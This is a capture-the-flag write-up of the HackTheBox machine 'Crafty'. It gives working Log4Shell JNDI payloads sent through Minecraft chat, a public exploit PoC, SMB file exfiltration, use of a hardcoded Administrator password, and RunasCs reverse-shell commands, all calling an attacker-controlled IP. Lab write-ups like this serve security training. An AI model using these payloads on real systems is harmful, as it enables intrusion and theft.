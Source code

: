 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔎 Recon

### 🔮 Port Scan
```bash
nmap -p- --min-rate 10000 -oA nmap/alltcp 10.10.11.249
nmap -p 80,25565 -sCV 10.10.11.249
```
- [HTTP](HTTP) (80): Microsoft IIS 10.0
- Minecraft (25565): Version 1.16.5 (Crafty Server)

### 🌐 Host Mapping
```bash
echo "10.10.11.249 crafty.htb play.crafty.htb" | sudo tee -a /etc/hosts
```

### 🚀 Web Enumeration
```bash
feroxbuster -u http://crafty.htb \
-w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
> Found: /home, /coming-soon, /css, /img, /js

---

## 🗰 Minecraft Port 25565

### 🎮 Client: Minecraft Console Client (Free)
```bash
./MinecraftClient-20240415-263-linux-x64 0xdf
```
- Server: crafty.htb
- Version: 1.16.5

### 🔍 Log4Shell Detection
```bash
nc -lnvp 389
# Send in chat:
${jndi:ldap://10.10.14.6/test}
```

---

## 🛡️ Exploit Log4Shell

### ⚙️ Setup
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt
tar xf jdk-8u20-linux-x64.tar.gz
```

### ✊ Fix Payload (Windows)
Edit `poc.py`: `String cmd="cmd.exe";`

### 🎣 Launch Exploit
```bash
nc -lnvp 443
python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
```
Send via chat:
```text
${jndi:ldap://10.10.14.6:1389/a}
```
> Result: Shell as `svc_minecraft`

---

## 🛠️ Privilege Escalation to Administrator

### 📁 Check Plugin Directory
```powershell
cd 'C:\Users\svc_minecraft\server\plugins'
Get-FileHash playercounter-1.0-SNAPSHOT.jar
```

### 🚚 Exfiltrate JAR
```bash
smbserver.py share . -smb2support -username oxdf -password oxdf
```
```powershell
net use \\10.10.14.6\share /u:oxdf oxdf
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
```

### 🔬 Reverse Engineering
- Tool: `jd-gui`
- Credential Found: `Administrator : s67u84zKq8IXw`

### 🔑 Validate with RunasCs
```powershell
wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
```

### 🚀 Shell as Admin
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
```
> Reverse shell as `Administrator`

---

## 🧰 Flags

- **User**: `c:\Users\svc_minecraft\Desktop\user.txt`
- **Root**: `c:\Users\Administrator\Desktop\root.txt`

---

## 🔎 Beyond Root - web.config Analysis

- `index.html` ➔ redirected to `/home`
- `/home` ➔ rewritten to `index.html`
- `/coming-soon` ➔ rewritten to `coming-soon.html`
- Redirects all other non-`crafty.htb` hostnames back to `crafty.htb`

> IIS URL Rewriting explained the static behavior and redirection logic.